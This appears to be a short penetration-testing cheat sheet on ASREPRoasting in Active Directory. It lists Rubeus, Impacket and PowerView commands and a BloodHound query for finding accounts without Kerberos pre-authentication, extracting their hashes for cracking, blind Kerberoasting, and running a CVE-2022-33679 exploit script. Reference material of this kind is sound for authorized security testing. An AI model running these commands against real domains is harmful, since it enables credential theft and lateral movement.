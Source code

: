 # ASREPRoast

## Tools: Rubeus , Impacket-GetNPUsers

### ASREPRoast

## Find ASREPRoastable users (need creds)

 - Get-DomainUser -PreauthNotRequired -Properties SamAccountName

 - MATCH(u:User {dontreqpreauth:true}). (c:Computer). p=shortestPath((u)-[*1..]->(c)) RETURN p (Bloodhound cypher query)

## Find ASREP hash

 - Impacket-GetNPUsers DOMAIN/ -usersfile USERNAMES.TXT -format hashcat -outputfile HASHES.DOMAIN.TXT

 - Rubeus.exe asreproast /format:hashcat

## Find TGS Hash

 - Impacket-GetUserSPNs -no-preauth "ASREP_USER" -usersfile "USER_LIST.TXT" -dc-host "DC_IP" "DOMAIN"/ (Blind Kerberoasting)

 - Rubeus.exe kerberoast /domain:DOMAIN /dc:DC_IP /nopreauth: ASREP_USER /spns:USERS.TXT (Blind Kerberoasting)

## Lateral Movement (PTT)

 - python3 CVE-2022-33679.py DOMAIN/USER TARGET
